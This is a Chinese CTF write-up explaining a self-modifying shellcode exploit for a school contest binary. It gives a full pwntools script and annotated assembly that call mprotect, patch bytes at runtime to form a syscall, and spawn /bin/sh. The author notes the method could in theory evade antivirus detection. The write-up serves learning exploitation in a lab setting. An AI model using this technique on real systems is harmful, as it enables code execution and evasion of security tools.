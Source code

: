 # 自改变shellcode

by Maple

校赛的`shell_for_shell`打破防了，但学到了一个叫做**自改变shellcode**的shellcode注入方式，理论来说可以实现所有的shellcode免杀，记录一下

先贴exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
gdb.attach(p)

#----恢复栈帧------
shellcode = """
	mov rbp, 0x404500
    mov rsp, rbp
    lea r15, [rip+0xe00]
    sub r15, 0xe16
    mov rdi, r15
    mov rsi, 0x1000
    mov rdx, 0x7
    mov rax, 0x401070
    call rax
    mov si, word ptr [r15 + 0x100]
    add si, 0x101
    mov word ptr [r15 + 0x100], si
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
"""
payload = (b"\x00\xc0"+asm(shellcode)).ljust(0x100-3, b"\x90")+b"\x0e\x04"

print(payload)
p.send(payload)
p.interactive()
```

这边分段分析一下

## 恢复栈+调用mprotect改权限

```assembly
mov rbp, 0x404500		;栈底恢复
    mov rsp, rbp			;rbp赋给rsp，恢复栈顶
    lea r15, [rip+0xe00]	;这里如果动调过会发现rip被保留了（其实看ida的汇编码也能看出来），就拿rip做传递栈指针
    sub r15, 0xe16			;额外减0x16，退回最开始的地址（之前总共0x16字节的汇编程序）
    mov rdi, r15			;rdi被传递,这里即addr = rdi
    mov rsi, 0x1000			;len = 0x1000
    mov rdx, 0x7			;prot = 7
    mov rax, 0x401070		;rax = 0x401070(对应mprotecct)
    call rax				;call mprotect指令
```

这里将栈底恢复为`0x404500`(因为动调发现这里有写入权限)，而写中间值是为了方便上下增长

![image-20250401233510572](./images/image-20250401233510572.png)

## 压栈构造execve的参数，准备执行shellcode

这里构造了`execve("/bin/sh",["sh",NULL],NULL)`

```assembly
mov si, word ptr [r15 + 0x100]	;r15的值+0x100，赋给si（rsi，16位模式)
    add si, 0x101					;再将si加上0x101
    mov word ptr [r15 + 0x100], si	;修改后的si存给r15+0x100的内存位置
    /*这里是为了给后面syscall找个确定位置，顺便自加一*/
    push 0x68						;压入"h"
    mov rax, 0x732f2f2f6e69622f		;压入/bin///s到rax中
    push rax						;压入rax中的值
    mov rdi, rsp					;栈顶指针给rdi，作为路径字符串的地址，后面直接写入execve

    push 0x1010101 ^ 0x6873			;异或的值压栈，避免显式空字节
    xor dword ptr [rsp], 0x1010101	;异或解密栈顶4字节，得到'sh\x00'
    xor esi, esi /* 0 */
    push rsi 						;作为字符串的\x00
    push 8							;压入8，后面计算‘sh\x00'字符串地址用
    pop rsi							;将8弹给rsi
    add rsi, rsp					;rsi=8+rsp，指向'sh\x00'
    push rsi 						;压入sh\x00
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve 				;等价于push 0x3b
    pop rax							;弹给rax
```

## 写入syscall

```python
payload = (b"\x00\xc0"+asm(shellcode)).ljust(0x100-3, b"\x90")+b"\x0e\x04"
```

这里是题目问题，先随便写一个代码在这里，消除第一字节为`\x00`的影响

写入了`\x90(nop)`指令填充

接下来`\x0e\x04`在第100字节那里了，然后就是`40e+101`返回给rsi，变成了`50f`,也就是`\x0f\x05`(syscall的机器码)

之后又把这个写回去，跟`pop rax`续上，执行完整的shellcode